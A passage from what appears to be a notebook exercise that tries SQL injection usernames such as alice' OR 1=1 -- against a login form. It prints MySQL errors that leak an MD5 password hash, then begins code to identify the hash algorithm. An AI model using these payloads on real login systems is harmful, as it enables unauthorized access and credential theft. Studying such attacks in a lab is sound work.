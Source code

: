 ```python
    print(f"Payload: {username_payload}")
    print(f"Result: {result_text}")

    # Check if there is a detailed error message in the response
    error_message = soup.find('div', class_='error-message')
    if error_message:
        error_text = error_message.get_text(strip=True)
        print(f"Error: {error_text}\n")
    else:
        print("\n")

    # Check if the login was successful
    if 'Welcome alice!' in response.text:
        print("Successfully logged in as alice")
        break

```

    Payload: alice' --
    Result: Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '5f4dcc3b5aa765d61d8327deb882cf99')' at line 1
    
    
    Payload: alice' /*
    Result: Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '/*') AND (password = '5f4dcc3b5aa765d61d8327deb882cf99')' at line 1
    
    
    Payload: alice' OR 1=1 --
    Result: Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '5f4dcc3b5aa765d61d8327deb882cf99')' at line 1
    
    
    Payload: alice' OR 1=1 /*
    Result: Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '/*') AND (password = '5f4dcc3b5aa765d61d8327deb882cf99')' at line 1
    
    



```python
import hashlib

# List of hash functions to test
hash_functions = [
    ('MD5', hashlib.md5),
    ('SHA-1', hashlib.sha1),
    ('SHA-224', hashlib.sha224),
    ('SHA-256', hashlib.sha256),
    ('SHA-384', hashlib.sha384),
    ('SHA-512', hashlib.sha512),
    ('SHA-3-224', hashlib.sha3_224),
    ('SHA-3-256', hashlib.sha3_256),
    ('SHA-3-384', hashlib.sha3_384),
    ('SHA-3-512', hashlib.sha3_512),
    ('Blake2b', hashlib.blake2b),
    ('Blake2s', hashlib.blake2s)
]

# The target hash
target_hash = '5f4dcc3b5aa765d61d8327deb882cf99'

# The string to hash
input_string = 'password'

# Helper function to encode and hash a string, then compare
```